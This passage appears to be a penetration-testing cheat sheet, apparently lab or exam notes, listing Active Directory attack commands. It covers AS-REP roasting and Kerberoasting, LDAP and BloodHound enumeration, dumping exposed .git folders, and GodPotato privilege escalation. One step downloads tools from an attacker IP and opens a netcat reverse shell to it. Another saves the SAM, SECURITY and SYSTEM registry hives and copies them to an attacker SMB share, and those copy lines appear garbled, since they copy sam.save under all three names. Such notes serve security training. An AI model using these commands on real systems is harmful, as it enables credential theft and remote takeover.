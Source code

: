 Use `--continue-on-success`. Check `--shares`.
#### after internal access credentials
##### Roasting 

```shell
# AS-REP roasting  
GetNPUsers.py <domain>/<user>:<password> -dc-ip <ip> -request -format john -outputfile hashes.txt  
# Kerberoasting  
GetUserSPNs.py <domain>/<user>:<password> -dc-ip <ip> -request -outputfile hashes.txt
```
##### ldapdomaindump

```shell
# check get_users_by_group file in Firefox to see all users, their descriptions, and any domain admins

ldapdomaindump ldap://<dc> -u '<domain>\<user>' -p <password> -o <dir>
```

##### bloodhound-python

```shell
bloodhound-python -c All -u user -p 'Password' -dc dc01.domain.local -d domain.local -ns <DC IP> --dns-timeout 30 --dns-tcp 
```
#### Git

Git-dumper if in web.

```shell
# Dump from web
git-dumper http://nicepage.com/.git ./directory 

# Executed in git directory
git log
git show <commit id>
git diff <commit 1> <commit 2>

```
#### GodPotato

Most reliable potato for SeImpersonate.

```powershell
# Get files in C:\Windows\Temp
wget http://192.168.45.151:445/GodPotato4.exe -o GodPotato.exe

wget http://192.168.45.151:445/nc64.exe -o nc.exe

.\GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.151 445"

```
#### Transfer sam/system/security

```powershell
python3 http-upload.py 80

reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"

smbserver.py -smb2support "share" .

copy C:\Windows\Temp\sam.save \\192.168.45.250\share\sam.save
copy C:\Windows\Temp\sam.save \\192.168.45.250\share\system.save
copy C:\Windows\Temp\sam.save \\192.168.45.250\share\security.save

```